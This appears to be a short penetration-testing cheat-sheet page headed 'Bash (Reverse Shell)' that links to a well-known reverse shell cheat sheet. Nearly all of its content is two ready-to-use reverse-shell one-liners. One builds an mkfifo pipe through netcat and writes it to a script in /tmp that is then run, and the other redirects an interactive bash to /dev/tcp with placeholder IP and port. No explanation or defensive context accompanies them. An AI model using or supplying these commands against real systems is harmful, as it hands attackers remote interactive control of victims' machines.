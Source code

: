 # Bash (Reverse Shell)

{% embed url="http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" %}

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f" \
> /tmp/shell.sh

/bin/sh -c "bash /tmp/shell.sh"
```

```
/bin/sh -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'
```
